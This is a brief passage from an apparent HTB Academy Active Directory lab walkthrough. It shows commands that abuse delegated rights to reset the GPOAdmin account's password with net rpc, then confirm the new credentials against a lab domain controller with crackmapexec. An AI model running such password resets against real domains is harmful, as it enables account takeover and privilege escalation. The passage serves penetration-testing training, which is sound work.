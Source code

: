 Now, we can perform the password reset and test that the credentials are correct:

#### Password Reset GPOAdmin

Granting Rights and Ownership

```shell
anas21@htb[/htb]$ net rpc password GPOAdmin Mynewpassword1 -U inlanefreight.local/pedro%SecuringAD01 -S 10.129.205.81
anas21@htb[/htb]$ poetry run crackmapexec ldap 10.129.205.81 -u GPOAdmin -p Mynewpassword1 

SMB         10.129.205.81   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
LDAP        10.129.205.81   389    DC01             [+] INLANEFREIGHT.LOCAL\GPOAdmin:Mynewpassword1
```